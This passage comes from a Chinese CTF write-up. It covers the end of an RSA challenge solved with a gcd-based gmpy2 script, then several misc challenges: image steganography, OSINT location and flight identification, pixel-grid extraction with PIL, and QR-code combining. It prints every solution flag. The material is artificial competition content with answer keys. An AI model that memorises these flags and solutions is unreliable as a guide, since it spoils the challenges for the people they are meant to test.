c2= 353128571201645377052005694809874806643786163076931670184196149901625274899734977100920488129375537186771931435883114557320913415191396857882995726660784707377672210953334914418470453787964899846194872721616628198368241044602144880543115393715025896206210152190007408112767478800650578941849344868081146624444817544806046188600685873402369145450593575618922226415069043442295774369567389939040265656574664538667552522329712111984168798829635080641332045614585247317991581514218486004191829362787750803153463482021229058714990823658655863245025037102127138472397462755776598314247771125981017814912049441827643898478473451005083533693951329544115861795587564408860828213753948427321483082041546722974666875065831843384005041800692983406353922680299538080900818930589336142421748023025830846906503542594380663429947801329079870530727382679634952272644949425079242992486832995962516376820051495641486546631849426876810933393153871774796182078367277299340503872124124714036499367887886486264658590613431293656417255355575602576047502506125375605713228912611320198066713358654181533335650785578352716562937038768171269136647529849805172492594142026261051266577821582011917001752590659862613307646536049830151262848916867223615064832279222
c= 375617816311787295279632219241669262704366237192565344884527300748210925539528834207344757670998995567820735715933908541800125317082581328287816628816752542104514363629022246620070560324071543077301256917337165566677142545053272381990573611757629429857842709092285442319141751484248315990593292618113678910350875156232952525787082482638460259354559904243062546518553607882194808191571131590524874275187750985821420412987586148770397073003186510357920710387377990379862185266175190503647626248057084923516190642292152259727446111686043531725993433395002330208067534104745851308178560234372373476331387737629284961288204368572750848248186692623500372605736825205759172773503283282321274793846281079650686871355211691681512637459986684769598186821524093789286661348936784712071312135814683041839882338235290487868969391040389837253093468883093296547473466050960563347060307256735803099039921213839491129726807647623542881247210251994139130146519265086673883077644185971830004165931626986486648581644383717994174627681147696341976767364316172091139507445131410662391699728189797082878876950386933926807186382619331901457205957462337191923354433435013338037399565519987793880572723211669459895193009710035003369626116024630678400746946356
n= 728002565949733279371529990942440022467681592757835980552797682116929657292509059813629423038094227544032071413317330087468458736175902373398210691802243764786251764982802000867437756347830992118278032311046807282193498960587170291978547754942295932606784354258945168927044376692224049202979158068158842475322825884209352566494900083765571037783472505580851500043517614314755340168507097558967372661966013776090657685241689631615245294004694287660685274079979318342939473469143729494106686592347327776078649315612768988028622890242005700892937828732613800620455225438339852445425046832904615827786856105112781009995862999853122308496903885748394541643702103368974605177097553007573113536089894913967154637055293769061726082740854619536748297829779639633209710676774371525146758917646731487495135734759201537358734170552231657257498090553682791418003138924472103077035355223367678622115314235119493397080290540006942708439607767313672671274857069053688258983103863067394473084183472609906612056828326916114024662795812611685559034285371151973580240723680736227737324052391721149957542711415812665358477474058103338801398214688403784213100455466705770532894531602252798634923125974783427678469124261634518543957766622712661056594132089

c11=gmpy2.powmod(c1,e2,n)
_5=gmpy2.powmod(5,e1*e2,n)
c22=gmpy2.powmod(c2,e1,n)
_2=gmpy2.powmod(2,e1*e2,n)
qk=(c11*_5-c22*_2)%n
q=gmpy2.gcd(qk,n)
p=n//q
print(n-p*q)
phi=(p-1)*(q-1)
d=gmpy2.invert(e,phi)
m=gmpy2.powmod(c,d,n)
print(long_to_bytes(m))
```
运行后得到flag：`SYC{poly_rsa_Just_need5_s1mple_gcd}`


# misc

## cheekin
看看签到题，进公众号发flag返回一张图片


仔细观察图片上没有什么隐藏的信息，那大概就是图片隐写了，打开祖传工具Stegsolve，查看file format未见异常，那就看看是不是lsb，出来了

获得flag: `syc{s4y_he110_t0_syclover}`

## Qingwan心都要碎了
从题目描述和附件看是个社工题。

观察左边图片能看到一个模糊的重庆城市沙盒，定位地点是在重庆

右边有很多历史文件，其中有个叫做三峡工程淹没区人口户X簿

以重庆，三峡，博物馆为关键词搜索

得到flag:`SYC{重庆中国三峡博物馆}`

## 下一站是哪儿呢
还是个系列题，也是社工

打开附件给了一个聊天记录

先看机场图片

机场大厅有个钢琴，这特征还挺明显的，以此搜索，基本都是国外的机场，感觉不是很符合，直接上以图搜图吧

深圳宝安国际机场，不太确定，以深圳宝安国际机场和钢琴为关键词搜索，找到几个视频

应该就是这里了，出发地已经确定，看目的地，专门给了一张图，应该还是图片隐写，但是祖传工具Stegsolve没有得到信息，那就看看是不是图种，打开kali使用binwalk

确实是，那就用foremost分解一下，分离出来一个zip文件，打开是一个txt和一张图片。


游戏？题目描述里说了是指挥官基恩，再结合这个图，应该就是这个游戏里的一种文字。搜索一下

再搜索标准银河字母，得到对照表

对照解密为“i want to go to liquor city”，搜索shenzhen-liquor airlines，没有结果，再搜下liquor city，也不是一个城市。
但是给翻译软件过了一下，“我想要去酒城”，搜索中国酒城，得到目的地泸州。
已知是深圳-泸州，起飞时间大概在晚上八点半之后，打开旅游软件买机票搜索一下，得到航班号CZ8579
得到flag:`SYC{CZ8579_Luzhou}`

## DEATH_N0TE
图片隐写，描述“flag有两段，隐写的信息有点多记得给信息拿全。”
首先下载附件，给的是一个压缩包，binwalk一下没有隐藏文件。
解压是一张图片，foremost分离失败，linux下可以打开，不是图种和宽高修改。
打开图片发现有一些奇怪的白点组成的字符

使用画图工具放大拉倒最满，查看

发现格点排列很整齐，起始像素是5,5，之后每10个像素打一个点，写一段脚本把这写点提取出来
```python
from PIL import Image

# 打开原始图像
original_image = Image.open("original_image.png")

# 定义像素提取的规则
x_start, y_start = 5, 5  # 起始像素坐标
pixel_interval = 10  # 间隔

# 获取原始图像的尺寸
width, height = original_image.size

# 计算新图像的尺寸
new_width = (width - x_start) // pixel_interval
new_height = (height - y_start) // pixel_interval

# 创建一个新的图像，与提取的像素数量相匹配
new_image = Image.new("RGB", (new_width, new_height))

# 提取像素并创建新图像
for x in range(x_start, width-20, pixel_interval):
    for y in range(y_start, height-20, pixel_interval):
        if x < width and y < height:
            pixel = original_image.getpixel((x, y))
            new_x = (x - x_start) // pixel_interval
            new_y = (y - y_start) // pixel_interval
            new_image.putpixel((new_x, new_y), pixel)

# 保存新图像
new_image.save("extracted_image.png")

# 关闭图像文件
original_image.close()
```
用画图打开反色一下

出现了很多很抽象的字符，这里需要把图像转换成字符串，但是直接肉眼猜对应的字母会出现很怪的错误，所以搜了一下死亡笔记的艺术字，发现这是一种字体，可以打开一些字体网之找到对照图，叫`Old English Text MT`

这是对照图，一个一个对照下来得到字符串`TkFNRV9vMnRha3VYWH0=`，base64一下得到后半段flag:`NAME_o2takuXX}`
然后打开祖传工具Stegsolve，先看看file format，发现最下面有一段base64

解码得到
> "你找到了一本《DEATH NOTE》，好奇心驱使你翻开这本笔记，你阅读了使用规则，但是你惊讶地发现刚才的规则之中唯独没有第10条..."
"你再次去确认是否如此，笔记上的文字却仿佛活了起来，在你眼中不断地放大缩小，你闭上了双眼..."
"原本黑色的文字一转变成血红色，诡异的画面还是出现于你的视网膜前，你决定不再纠结于遗失的规则，幻觉消失了..."

好嘛，这是提示刚刚完成的部分，不管他。
再打开lsb隐写，又有一段base64，第一眼还以为和刚刚找到的是一样的，仔细看才发现不是。

取出来之后解码得到
>"你继续观察手上漆黑色的笔记本，冷静下来的你发现了藏在封面最下边的一行小字:SYC{D4@Th_N0t4_"
"你浏览过整个笔记本，可惜全是空白页，其中有一页不知道被谁撕掉了，你最终还是翻到了缺失的那一骆Ԉ(RNSڋ*瞶B;v⃦׾3⫦vOO랺Òꛦ_Ǟj^W丸
后面是乱码不管他，得到flag前半段：`SYC{D4@Th_N0t4_`
拼接得到完整flag:`SYC{D4@Th_N0t4_NAME_o2takuXX}`

ps. 规则第十条是 *接触到死亡笔记的人，即便不是死亡笔记持有者，也可以识别该死亡笔记的宿主死神的音貌。*，flag最后一部分就是出题人的id。


## xqr
下载附件，是一个压缩包，里面有图片，直接foremost压缩包，没有隐藏文件，再foremost解压出来的图片，隐藏了一个图片。
得到的两个图片长这样

第一个扫码出来说自己不是flag，第二个大小只有25x25，很糊，一开始看缺了四块，以为是补充四个定位点就好，但实际上做不出来，又想手动补全，但还是读取不了，最后放弃了。
过了一段时间官方发了个hint

无语，把第二个二维码用画图工具放大三倍到和第一个二维码一样大，然后用祖传工具combine一下，得到一个新的二维码图片，扫码获得flag。
`SYC{hOp3_u_h@ve_Fun}`
